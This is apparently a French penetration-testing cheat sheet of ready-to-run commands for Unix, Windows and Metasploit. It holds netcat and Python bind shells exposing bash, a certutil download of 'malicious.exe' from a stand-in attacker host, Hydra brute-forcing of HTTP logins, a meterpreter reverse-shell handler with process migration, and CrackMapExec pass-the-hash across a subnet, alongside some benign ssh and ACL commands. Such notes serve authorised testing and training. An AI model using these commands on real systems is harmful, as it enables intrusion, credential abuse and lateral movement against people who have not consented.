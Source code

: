 <h2>Unix</h2>
Accorder les permissions pour un user specifique

```
setfacl -m u:username:rwx myfolder
```
Tunnel ssh dynamique sur le port local 8080:

```
ssh -ND 8080 root@addressIP
```
Rebonds avec ssh:

```
ssh -J root@premier_rebond root@cible
```
Port forwarding avec ssh:

```
ssh -NL port_local:cible_distante:port_cible_distante root@rebond</br>
```
<h3>Obtenir un shell</h3>
Ouvrent un shell sur le port 2222 :

```
 nc -lkvp 2222 -e /bin/bash
 python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```
On se connecte avec nc -nv 2222 adress port
<h4>Pour avoir un shell pty :</h4>

```
python -c "import pty; pty.spawn('/bin/bash')"
```
<h4>Pour avoir tab completion tout joli :</h4>
Prendre un shell pty avec la commande plus haut

```
 CTRL-Z
 stty raw -echo
 fg
```

Envoi fichier avec netcat :

```
nc -l -p 1234 > out.file
nc -w 3 [destination] 1234 < out.file
```

#### Hydra:
http-auth bute force

```
hydra -L user.txt -P password.txt -t12 -f x.x.x.x http-get / -V
```

#### XfreeRDP:

```
xfreerdp /f +clipboard /kbd:0x0000040C /u:USERNAME@DOMAIN /p:PASSWORD /v:IP
```
<h2>Windows</h2>

`systeminfo` pour obtenir des renseignements sur le systeme

`net users [username]` pour obtenir des renseignements sur les utilisateurs

`tasklist` pour lister les processus

`netstat -ano` pour les connexions reseau

`dir sysprep /s /b` pour trouver un fichier dans le repertoire courant et ses sous-dossiers

`wmic qfe list` pour lister les mises à jour installées

`certutil.exe -urlcache -split -f "https://hackers.home/malicious.exe" bad.exe` le wget en cmd

`certutil.exe -decode bad.txt bad.exe` le base64 decode en cmd

<h3>Powershell</h3>

`get-WmiObject -class Win32_Share`


<h2>Metasploit</h2>
Handler :

```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.8.142
set LPORT 8888
set ExitOnSession false
exploit -j -z
```

use post/multi/recon/local_exploit_suggester</br>

`run post/windows/manage/migrate` pour changer sur un processus plus fiable</br>

#### CrackMapExec

Une fois le hash administrateur récupéré sur un poste:

```
cme smb -u Administrateur -H HASH 192.168.20.0/24 --local-auth
```
